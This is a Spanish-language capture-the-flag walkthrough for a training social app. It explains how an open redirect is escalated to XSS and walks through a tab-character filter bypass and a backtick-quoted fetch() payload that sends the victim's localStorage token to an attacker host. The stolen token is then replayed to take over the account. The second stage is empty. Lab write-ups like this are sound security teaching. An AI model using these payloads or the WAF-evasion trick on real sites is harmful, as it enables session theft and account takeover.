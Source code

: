 # Soluciones

## Etapa 1: Acceder con cualquier usuario

<details>
<summary>Mostrar</summary>

Para empezar, accedemos a http://whp-socially/ y nos encontramos con la siguiente pantalla:

![](img/MainPage.png)

Vemos que en el menú lateral izquierdo tenemos la opción de "Login", pero no es importante dado que no tenemos ninguna cuenta y no podemos registrarnos.

Si revisamos las publicaciones de la página, vemos que hay una publicación de un usuario llamado "admin" con un enlace que nos lleva a la página de Google.

![](img/InterestingHyperlink.png)

Este enlace es relevante, porque no redirecciona directamente a Google, sino que usa un parámetro llamado "next" para redireccionar a la página que nosotros queramos.

Esto recuerda a una vulnerabilidad llamada "Open Redirect", que consiste en que un atacante puede redireccionar a un usuario a una página que no es la que el usuario espera, por ejemplo, a una página de phishing.

Para validar si esto es una vulnerabilidad, podemos manipular el parámetro "next", quedando el enlace de la siguiente manera:

http://whp-socially/?next=http://example.com

![](img/example.com.png)

Y al acceder a este enlace, nos redirecciona a la página example.com, lo que confirma la vulnerabilidad.

Open Redirect es una vulnerabilidad muy común, normalmente no es muy peligrosa y en muchos casos se reporta con criticidad baja o incluso informativa. Sin embargo, hay casos en las que se puede explotar para realizar ataques más complejos, como por ejemplo, un Cross-Site Scripting (XSS). Un XSS permite que un atacante ejecute código JavaScript en el navegador del usuario. Vamos a verificar si esto es posible.

Para esto, tenemos que identificar cómo realiza la aplicación la redirección. Podemos usar Burp Suite para interceptar la petición y ver qué está pasando.

![](img/RequestOpenRedirect.png)

La aplicación redirecciona utilizando código JavaScript, más específicamente, con la propiedad "href" del objeto "window.location".

Cuando se redirecciona mediante JavaScript, y no mediante una cabecera HTTP "Location", se puede escalar el Open Redirect a un XSS. Esto resulta muy útil para Bug Bounty, porque los XSS se reportan con mayor criticidad que los Open Redirect, brindando una mayor recompensa.

Intentemos explotar esto. Primero, probemos si "javascript:" nos funciona, para ver si podemos ejecutar código JavaScript.

![](img/javascriptBlocked.png)

Al parecer, "javascript:" está bloqueado. No obstante, mediante el uso del carácter %09 (tabulador codificado en URL), podemos evadir los filtros.

Para esto, agregamos dicho carácter entre la primera y la última letra de la palabra "javascript", quedando de la siguiente manera:

![](img/BypassFilter.png)

Este carácter genera un espacio en blanco, que es ignorado por el navegador. Esta simple técnica, pero no tan conocida, me sirvió para evadir el WAF comercial de Imperva en un escenario de Bug Bounty.

Ahora, podemos ejecutar código JavaScript. Vamos a intentar llamar a la función "alert()" para ver si funciona.

![](img/alertBlocked.png)

Al parecer, la función "alert()" también está bloqueada. Sin embargo, podemos utilizar la función "print()", que genera una ventana de impresión.

![](img/printAllowed.png)

¡Perfecto, funciona! Accedamos desde el navegador para confirmar que se ejecuta el código JavaScript. El enlace debe quedar de la siguiente manera:

http://whp-socially/?next=j%09avascript:print()

![](img/printExecuted.png)

El código JavaScript se ejecuta correctamente. No obstante, no es muy útil, ya que solo genera una ventana de impresión. Vamos a intentar algo más interesante, como por ejemplo, robar la sesión del usuario.

Pero antes, necesitamos identificar cómo almacena la sesión / autenticación la aplicación. Normalmente, se almacena en una cookie, pero no siempre es así. Para determinar esto, revisamos los archivos JavaScript que se están ejecutando en la página principal. En este caso, tenemos un archivo llamado "main.js".

![](img/localStoragetoken.png)

En este archivo, podemos ver que se llama a la función "localStorage.getItem('token')", que es la que se encarga de obtener el token del usuario desde el almacenamiento local del navegador.

En caso de que haya dudas, la diferencia principal entre las cookies y el almacenamiento local es que las cookies se almacenan en el navegador y el servidor, mientras que el almacenamiento local solo se almacena en el navegador.

Vamos a intentar robar el token del usuario. Necesitamos un servidor de atacante para recibir el token de la víctima. Para esto, podemos usar un servidor HTTP de Python, con el siguiente comando:

    python3 -m http.server 80

![](img/pythonhttpserver.png)

Ahora, vamos a ver cuál es la dirección IP de nuestra máquina de atacante. Para esto, podemos usar el comando "ifconfig". La dirección IP que nos interesa es la de la interfaz puente de Docker, con el nombre que empieza con "br-".

![](img/ifconfig.png)

Con esta información, podemos crear un payload que utilice la función "fetch()" para enviar el token al servidor de atacante mediante una petición GET. El enlace quedaría de la siguiente manera:

```
http://whp-socially/?next=j%09avascript:fetch(%27http://172.18.0.1/%27%2blocalStorage.getItem(%27token%27))
```

**Importante:** Hay que reemplazar \<IP_ATACANTE\> por la dirección IP de la máquina de atacante. Además, hay que codificar el carácter "+" en URL, para que no se interprete como un espacio en blanco.

Si probamos el enlace, veremos que la petición no llega al servidor de atacante. Revisemos la consola del navegador para ver qué está pasando.

![](img/blockedFetch.png)

Al parecer, hay un error de sintaxis relacionado con el carácter "&". Para depurar esto, podemos enviar la petición al Repeater de Burp Suite y ver dónde está el problema.

![](img/blockedFetchRepeater.png)

El problema está en que el carácter "%27" (comilla simple codificada en URL) está siendo codificado mediante HTML Entities. Esto se debe a que la aplicación está haciendo un escape de los caracteres especiales.

Para solucionar esto, podemos ver si el resto de comillas están siendo escapadas también. Con JavaScript, podemos representar strings mediante comillas simples, dobles o backticks.

![](img/checkingQuoteChars.png)

En este caso, los backticks no están siendo escapados. Por lo tanto, podemos utilizarlos para solucionar el problema. El enlace quedaría de la siguiente manera:

```
http://whp-socially/?next=j%09avascript:fetch(`http://172.18.0.1/`%2blocalStorage.getItem(`token`))
```

Si probamos el enlace, vemos que la petición llega al servidor de atacante.

![](img/requestReceived.png)

Nos llega el valor "null", esto se debe a que no estamos autenticados, pero esto nos sirve para comprobar que la petición llega correctamente. Ahora, vamos a enviar la petición a la víctima, utilizando el servidor de explotación disponible en http://whp-exploitserver/.

![](img/exploitServer.png)

Pulsamos el botón "Deliver URL to victim" para enviar el enlace a la víctima. El servidor de explotación simula la navegación de la víctima y vemos que el token llega correctamente al servidor del atacante.

![](img/tokenReceived.png)

Ahora, podemos utilizar el token para autenticarnos en la aplicación de http://whp-socially/. Abrimos la consola del navegador y ejecutamos el siguiente código JavaScript:

    localStorage.setItem('token', 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzb2NpYWxseS1hcHAiLCJpZCI6NX0.<FIRMA>')

**Importante:** Hay que reemplazar \<FIRMA\> por la firma del token que hemos obtenido. Además, para que la consola nos deje pegar el código anterior, hay que escribir "allow pasting" justo antes de ejecutar el código.

![](img/localStoragesetItem.png)

Si recargamos la página, comprobamos que nos hemos autenticado correctamente con la cuenta de "ares".

![](img/loggedinasares.png)

</details>

## Etapa 2: Acceder como admin

<details>
<summary>Mostrar</summary>

</details>
